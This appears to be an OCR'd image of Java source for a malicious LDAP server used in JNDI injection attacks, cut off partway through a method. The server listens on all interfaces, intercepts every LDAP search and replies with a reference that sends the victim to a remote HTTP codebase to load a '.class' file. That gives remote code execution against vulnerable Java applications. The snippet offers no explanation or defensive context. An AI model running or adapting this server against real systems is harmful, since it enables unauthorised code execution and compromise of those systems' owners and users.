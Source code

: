 ```java
import java.net.MalformedURLException;
import java.net.URL;

public class ldapServer {

    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) {
        String[] args=new String[]{"http://127.0.0.1:8079/#test"};
        int port = 1099;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                "listen", //$NON-NLS-1$
                InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                port,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
```